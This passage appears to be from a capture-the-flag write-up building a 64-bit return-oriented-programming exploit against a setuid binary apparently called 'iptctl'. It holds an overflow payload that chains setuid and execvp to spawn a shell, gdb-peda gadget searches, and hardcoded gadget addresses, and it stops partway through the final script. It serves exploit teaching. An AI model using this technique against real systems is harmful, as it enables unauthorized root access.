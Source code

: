 ```python
payload = "allow" + "A"*29 + pop_rdi_addr + null + setuid_addr + pop_rdi_addr + sh_addr + pop_rsi_pop_r15_addr + null + null + execvp_addr + "\n" + "1.1.1.1" + "\n"
```

* Now let's find the values

```bash
# pop_rdi_addr
gdb-peda$ ropsearch "pop rdi"

# null
"\x00\x00\x00\x00\x00\x00\x00\x00"

# setuid_addr
gdb-peda$ plt
# [...redacted...]
Breakpoint 37 at 0x400780 (setuid@plt)
# [...redacted...]
gdb-peda$

# sh_addr
gdb-peda$ find "sh"
# [...redacted...]
    iptctl : 0x40046e --> 0x7063727473006873 ('sh')
# [...redacted...]

# pop_rsi_pop_r15_addr
gdb-peda$ ropsearch "pop rsi"
# [...redacted...]
0x00400de1 : (b'5e415fc3')	pop rsi; pop r15; ret
gdb-peda$ 

# execvp_addr
gdb-peda$ plt
Breakpoint 42 at 0x400760 (execvp@plt)
# [...redacted...]
gdb-peda$ 
```

* Let's construct our final python script. I will not use `pwn` tools to show how this is being done without any helper functions.

```python
#!/usr/bin/env python

# gadgets and variables - take note that due to being little
# endian, we need to consutrct the memory addresses in reverse
# order. For example, if we see an addres in gdb which is
# "0x400760" in python it will be "\x60\x07\x40".
# 
# Another thing to take note of is that since we are dealing
# with 64-bit architecture, you might often see in debuggers
# that they only display 6 bytes of address instead of 8.
# That's because the remaining 2 bytes are not used. So in our
# python script, just replace the missing 2 bytes with NULL
# bytes "\x00\x00".                                                           
pop_rdi_addr = "\xe3\x0d\x40\x00\x00\x00\x00\x00"                                                                                                   
sh_addr = "\x6e\04\x40\x00\x00\x00\x00\x00"                                                                                               
pop_rsi_pop_r15_addr = "\xe1\x0d\x40\x00\x00\x00\x00\x00"                                                                                            
execvp_addr = "\x60\x07\x40\x00\x00\x00\x00\x00"                                                                                                   
setuid_addr = "\x80\x07\x40\x00\x00\x00\x00\x00"                                
```